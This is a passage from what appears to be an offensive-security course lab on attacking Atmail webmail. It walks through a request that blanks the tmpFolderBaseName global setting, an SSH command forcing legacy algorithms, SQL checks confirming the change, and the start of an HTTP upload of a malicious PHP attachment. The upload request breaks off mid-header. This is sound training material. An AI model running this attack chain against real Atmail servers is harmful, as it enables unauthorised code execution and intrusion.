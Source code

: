 Also notice how we set tmpFolderBaseName to an empty value in line with our initial plan.

Exercise
Replay the POST request listed in Listing 35 and verify that you can successfully modify global settings. You can verify it by connecting to Atmail via SSH, logging in to the database, and checking the setting.

However, Atmail's SSH server is running an outdated configuration. To connect from Kali, we need to use -o specify Key Exchange and Host Key algorithms available on the server.

kali@kali:~$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-dss atmail@atmail
Listing 36 - Sample ssh connection command for Atmail

When logged into the database, run the following SQL statement.

mysql> select * from Config where keyName="tmpFolderBasename";
+----------+---------+-------------------+----------+---------+
| configId | section | keyName           | keyValue | keyType |
+----------+---------+-------------------+----------+---------+
|       92 | global  | tmpFolderBaseName | tmp/     | String  | 
+----------+---------+-------------------+----------+---------+
1 row in set (0.00 sec)

mysql>
Listing 37 - Verifying the default tmpFolderBaseName global setting

After running the attack, re-run the SQL statement. You should have a blank keyValue field.

mysql> select * from Config where keyName="tmpFolderBasename";
+----------+---------+-------------------+----------+---------+
| configId | section | keyName           | keyValue | keyType |
+----------+---------+-------------------+----------+---------+
|       92 | global  | tmpFolderBaseName |          | String  | 
+----------+---------+-------------------+----------+---------+
1 row in set (0.00 sec)

mysql>
Listing 38 - Verifying the attack worked against the tmpFolderBasename global setting

16.4.4. addattachmentAction Vulnerability Trigger
Now that we have changed the appropriate global setting, we can upload any content we choose (such as PHP code) via an email attachment and access it using a URI that we now know we can reach in a browser. The following listing shows a HTTP request for a sent email with a malicious attachment.

POST /index.php/mail/composemessage/addattachment/composeID/ HTTP/1.1 
Host: atmail
Cookie: atmail6=jpln2oq7qpvscg46n6vsgb3ba0
Connection: close 
Content-Type: multipart/form-data; 
boundary=--------------------------- 53835469212916346211645234520
Content-Length: 238 

-----------------------------53835469212916346211645234520 
Content-Disposition: form-data; name="newAttachment"; filename="offsec.php" 
Content-Type: </span>
